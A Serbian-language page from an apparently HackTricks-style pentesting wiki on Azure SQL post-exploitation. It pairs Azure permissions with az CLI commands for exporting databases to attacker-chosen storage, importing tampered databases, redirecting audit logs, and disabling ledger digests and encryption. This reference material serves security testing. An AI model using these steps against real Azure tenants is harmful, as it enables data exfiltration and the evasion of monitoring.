 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

Za više informacija o SQL bazi podataka pogledajte:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/databases/read`, `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`

Sa ovim dozvolama, napadač može da kreira i ažurira baze podataka unutar kompromitovanog okruženja. Ova post-ekspolatacijska aktivnost može omogućiti napadaču da doda zlonamerne podatke, izmeni konfiguracije baze podataka ili umetne zadnje ulaze za dalju postojanost, potencijalno ometajući operacije ili omogućavajući dodatne zlonamerne radnje.
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
Sa ovim dozvolama (`Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`) možete obnoviti obrisanu bazu podataka:
```bash
az sql db restore \
--dest-name <new_database_name> \
--name <original_database_name> \
--resource-group <resource_group> \
--server <server_name> \
--deleted-time "<deleted_time_ISO_format>"

```
### `Microsoft.Sql/servers/elasticPools/write` && `Microsoft.Sql/servers/elasticPools/read`

Sa ovim dozvolama, napadač može da kreira i ažurira elasticPools unutar kompromitovanog okruženja. Ova post-ekspolatacijska aktivnost može omogućiti napadaču da doda zlonamerne podatke, izmeni konfiguracije baze podataka ili umetne zadnje ulaze za dalju postojanost, potencijalno ometajući operacije ili omogućavajući dodatne zlonamerne radnje.
```bash
# Create Elastic Pool
az sql elastic-pool create \
--name <new-elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--edition <edition> \
--dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
--name <elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--dtu <new-dtu-value> \
--tags <key=value>
```
### `Microsoft.Sql/servers/auditingSettings/read` && `Microsoft.Sql/servers/auditingSettings/write`

Sa ovom dozvolom, možete modifikovati ili omogućiti podešavanja revizije na Azure SQL Serveru. Ovo bi moglo omogućiti napadaču ili ovlašćenom korisniku da manipuliše konfiguracijama revizije, potencijalno prikrivajući tragove ili preusmeravajući revizione dnevnike na lokaciju pod njihovom kontrolom. Ovo može ometati bezbednosno praćenje ili omogućiti da se prati akcije. NAPOMENA: Da biste omogućili reviziju za Azure SQL Server koristeći Blob Storage, morate povezati nalog za skladištenje gde se revizioni dnevnici mogu sačuvati.
```bash
az sql server audit-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--state Enabled \
--storage-account <storage_account_name> \
--retention-days 7
```
### `Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read`, `Microsoft.Sql/servers/connectionPolicies/read` && `Microsoft.Sql/servers/connectionPolicies/write`

Sa ovom dozvolom, možete modifikovati politike povezivanja Azure SQL Server-a. Ova sposobnost se može iskoristiti za omogućavanje ili promenu podešavanja povezivanja na nivou servera.
```bash
az sql server connection-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--connection-type <Proxy|Redirect|Default>
```
### `Microsoft.Sql/servers/databases/export/action`

Sa ovom dozvolom, možete eksportovati bazu podataka sa Azure SQL Server-a u nalog za skladištenje. Napadač ili ovlašćeni korisnik sa ovom dozvolom može eksfiltrirati osetljive podatke iz baze podataka izvozeći ih na lokaciju koju kontroliše, što predstavlja značajan rizik od curenja podataka. Važno je znati ključ za skladištenje kako biste mogli to da uradite.
```bash
az sql db export \
--server <server_name> \
--resource-group <resource_group_name> \
--name <database_name> \
--storage-uri <storage_blob_uri> \
--storage-key-type SharedAccessKey \
--admin-user <admin_username> \
--admin-password <admin_password>

```
### `Microsoft.Sql/servers/databases/import/action`

Sa ovom dozvolom, možete uvesti bazu podataka u Azure SQL Server. Napadač ili ovlašćeni korisnik sa ovom dozvolom može potencijalno da otpremi zlonamerne ili manipulirane baze podataka. To može dovesti do preuzimanja kontrole nad osetljivim podacima ili umetanja štetnih skripti ili okidača unutar uvezene baze podataka. Dodatno, možete je uvesti na svoj server u Azure. Napomena: Server mora dozvoliti Azure uslugama i resursima da pristupaju serveru.
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri `https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac`
```
### `Microsoft.Sql/servers/connectionPolicies/write` && `Microsoft.Sql/servers/connectionPolicies/read`

Sa ovim dozvolama, korisnik može da menja i preuzima politike povezivanja Azure SQL servera. Ove dozvole omogućavaju nekome da promeni način na koji klijenti povezuju na server—birajući između metoda kao što su preusmeravanje ili proxy—što bi moglo biti iskorišćeno za slabljenje bezbednosti, preusmeravanje saobraćaja ili presretanje osetljivih podataka ako je pogrešno konfigurisano.
```bash
az sql server conn-policy update \
--resource-group <resource_group> \
--server <server_name> \
--connection-policy <policy>
```
### `Microsoft.Sql/servers/keys/write` && `Microsoft.Sql/servers/keys/read`

Sa ovim dozvolama, korisnik može ažurirati i preuzeti ključeve za enkripciju povezane sa Azure SQL Server-om. Ovi ključevi se često koriste za zaštitu osetljivih podataka putem enkripcije, tako da njihovo manipulisanje može ugroziti bezbednost podataka omogućavanjem neovlašćene dekripcije ili promena rotacije ključeva.
```bash
az sql server key create \
--resource-group MyResourceGroup \
--server MyServer \
--kid "https://mykeyvault.vault.azure.net/keys/mykey/1234567890abcdef
```
### `Microsoft.Sql/servers/databases/ledgerDigestUploads/disable/action`, `Microsoft.Sql/locations/ledgerDigestUploadsAzureAsyncOperation/read`, `Microsoft.Sql/locations/ledgerDigestUploadsOperationResults/read`

Ova dozvola omogućava onemogućavanje Ledger Digest za Azure SQL Database, što zaustavlja periodično učitavanje kriptografskih digest zapisa u Azure Blob Storage koji verifikuje integritet podataka.
```bash
az sql db ledger-digest-uploads disable \
--name ledgerDB \
--resource-group myResourceGroup \
--server my-sql-server
```
### `Microsoft.Sql/servers/databases/transparentDataEncryption/write`, `Microsoft.Sql/locations/transparentDataEncryptionAzureAsyncOperation/read`, `Microsoft.Sql/servers/databases/transparentDataEncryption/read`

Ova dozvola omogućava ovlašćenom korisniku ili napadaču da omogući, onemogući ili izmeni podešavanja Transparent Data Encryption (TDE) na Azure SQL bazi podataka, potencijalno utičući na bezbednost podataka promenom konfiguracija enkripcije.
```bash
az sql db tde set \
--database <database-name> \
--resource-group <resource-group-name> \
--server <server-name> \
--status <Enabled|Disabled>
```
{{#include ../../../banners/hacktricks-training.md}}
